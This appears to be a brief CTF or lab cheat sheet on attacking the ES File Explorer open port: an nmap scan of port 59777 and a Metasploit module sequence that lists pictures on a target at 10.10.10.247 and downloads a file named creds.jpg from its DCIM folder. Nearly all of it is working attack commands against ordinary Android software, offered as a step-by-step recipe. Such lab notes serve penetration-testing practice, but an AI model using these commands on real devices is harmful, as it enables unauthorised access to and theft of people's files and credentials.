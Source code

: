 # ES File Explorer File Manager

Enumeration

```bash
sudo nmap -p 59777 --open -sS -Pn
```

Exploit

```bash
msfconsole
search es file explorer

use auxiliary/scanner/http/es_file_explorer_open_port
options

set RHOSTS 10.10.10.247
exploit

show actions

set action LISTPICS
exploit

# Exploit
set action GETFILE
set ACTIONITEM /storage/emulated/0/DCIM/creds.jpg
exploit

sudo apt install feh
feh ~/.msf4/loot/20211025151836_default_10.10.10.247_getFile_410464.jpg
```
